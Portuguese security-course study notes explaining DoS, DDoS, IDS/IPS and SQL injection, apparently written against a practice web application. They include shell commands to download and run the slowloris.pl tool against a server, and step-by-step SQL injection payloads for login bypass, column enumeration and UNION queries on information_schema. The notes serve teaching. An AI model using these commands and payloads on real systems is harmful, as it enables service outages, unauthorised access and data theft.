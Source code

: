 ```
      * Um ataque de negação de serviço ou em inglês Denial Of Service (DoS) ocorre quando temos um usuário que utiliza de recursos para causar uma sobrecarga em um sistema com o principal objetivo de torná-lo indisponível para outros usuários.
      * Equipamentos que temos nas redes são por exemplo o Intrusion Detection System (IDS) que recebe cópias desse tráfego e caso alguma anomalia seja detectada, o equipamento manda alarmes para que assim os administradores da rede possam saber o ocorrido e procurar uma solução. Outra solução seria a utilização de equipamentos como o Intrusion Prevention System (IPS) que é capaz de detectar anomalias no tráfego e impedir que esse tráfego seja propagado para outros pontos da rede.
      * O Intrusion Detection System (IDS) recebe apenas cópias dos tráfego, dessa forma, ele não é capaz de impedir que um ataque seja propagado para outros pontos da nossa rede. Ele irá encaminhar alarmes para que possamos assim saber dos problemas que foram detectados e encontrar soluções.
      * O Intrusion Prevention System (IPS) é conectado diretamente na rede, dessa forma, ao analisar algum tipo de anomalia o IPS é capaz de impedir que esse tráfego seja propagado para outros pontos da minha rede.
        $ git clone https://github.com/llaera/slowloris.pl.git  => no kali linux, baixamos uma ferramenta capaz de sobrecarregar um servidor
        $ cd slowloris.pl/
        $ chmod +x slowloris.pl
        $ ./slowloris.pl
        $ perl ./slowloris.pl -dns [IP servidor] -timeout 1   => executa o ataque
!DDoS (Distributed Denial of Service):
      * O ataque DDoS (Distributed Denial of Service) consiste em tirar a concentração do ataque em um usuário, como é feito no ataque de DoS e distribuir o ataque por vários usuários. Isso pode ser obtido por exemplo quando usuários fazem download de arquivos infectados. Uma vez que tais máquinas foram infectadas, o Hacker poderá controlá-las para que possa assim iniciar um ataque distribuído contra um serviço. O objetivo de tal ataque seria de causar uma "saturação" no link do alvo e com isso torná-lo indisponível para que outros usuários acessem o serviço.
      * Uma botnet é um grupo de máquinas que foram comprometidas de alguma forma (por exemplo vírus, malware, etc). Tais máquinas infectadas passam a ser usadas por hackers para fazerem ataques contra um determinado serviço a fim de torná-lo indisponível. Pelo fato de termos várias máquinas atuando nesse ataque, chamamos esse de um ataque de negação de serviços distribuído (DDoS).
      * 
!SQL Injection:
      * Inserir códigos SQL em parâmetros da página, para que o banco de dados se comporte de uma maneira indevida, podendo por exemplo, extrair dados que estão lá inseridos.
      * No exemplo de nossa aplicação, os parâmetros username e password são encaminhados para o servidor e ocorre uma consulta no banco de dados para verificar se esses dados estão presentes. Essa consulta ao banco de dados é feita na linguagem SQL (Structured Query Language) e ao inserir códigos SQL nos campos username e password, estamos passando para o banco informações para que ele se comporte da forma que queremos, o que não deveria ser permitido.
        $ no campo de password digitar  x' or 'a'='a   nossa requisição é enviada em SQL como SELECT username FROM accounts WHERE username='admin' AND password=''; Desta forma, ao passarmos "SELECT username FROM accounts WHERE username='admin' AND password='x' or 'a'='a';", podemos utilizar esse operador lógico or para que o SQL retorne como True essa requisição
        $ Nossa requisição é enviada em SQL como SELECT username FROM accounts WHERE username='admin' AND password=''; Para que possamos descobrir a senha, podemos ordenar duas colunas passando no name: " admin' order by 1,2 --[espaço] " (-- comenta o código, então ' AND password=''; será comentado). Assim nos é retornado a senha do usuário. Com isso podemos também descobrir o número de colunas que essa tabela possui, basta dar um order by [num_coluna] até que não levante excessão de erro
        ! O information schema seria um banco de dados interno capaz de referenciar os demais bancos presentes em minha aplicação, podendo informar nomes de colunas e tabelas. Sendo assim muito importante para descobrir que informações estão guardadas.
        $ Com a linha acima descobrimos o número de colunas. Com isso, SELECT username FROM accounts WHERE username='admin' UNION SELECT 1,2,3,4,5,6,7 from information_schema.columns where table_name='accounts' -- ' AND password=''. O que passamos na aba username foi "admin' UNION SELECT 1,2,3,4,5,6,7 from information_schema.columns where table_name='accounts' -- ", Recebemos as informações de que Username está na coluna número 2, Password na número 3 e Signature na 4. Repare que esses números surgem dos parâmetros que nós mesmos inserimos. Falta descobrir qual o banco em que essa tabela Accounts está inserida. Portanto, nós vamos substituir um desses valores que aparece na tela pelo database. Agora: "admin' UNION SELECT 1,database(),3,4,5,6,7 from information_schema.columns where table_name='accounts' -- ".
```